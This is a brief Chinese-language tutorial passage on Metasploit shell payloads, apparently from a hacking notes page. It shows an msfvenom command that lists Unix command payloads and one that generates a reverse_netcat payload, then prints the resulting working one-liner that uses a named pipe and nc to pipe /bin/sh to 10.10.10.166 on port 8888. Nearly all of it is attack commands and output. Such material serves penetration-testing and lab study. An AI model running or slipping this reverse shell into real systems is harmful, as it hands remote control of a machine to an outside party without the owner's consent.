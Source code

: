 ## msf的payload shell

查找msf生成正向shell或者反向shell的payload：

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```

![](/img/hack/tty_shell/msf_payload.png)

使用msfvenom生成`reverse_netcat`:

```bash
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.10.166 LPORT=8888 R
```

生成结果：

```bash
mknod /tmp/pqgi p; nc 10.10.10.166 8888 0</tmp/pqgi | /bin/sh >/tmp/pqgi 2>&1; rm /tmp/pqgi
```

![](/img/hack/tty_shell/reverse_netcat_r.png)
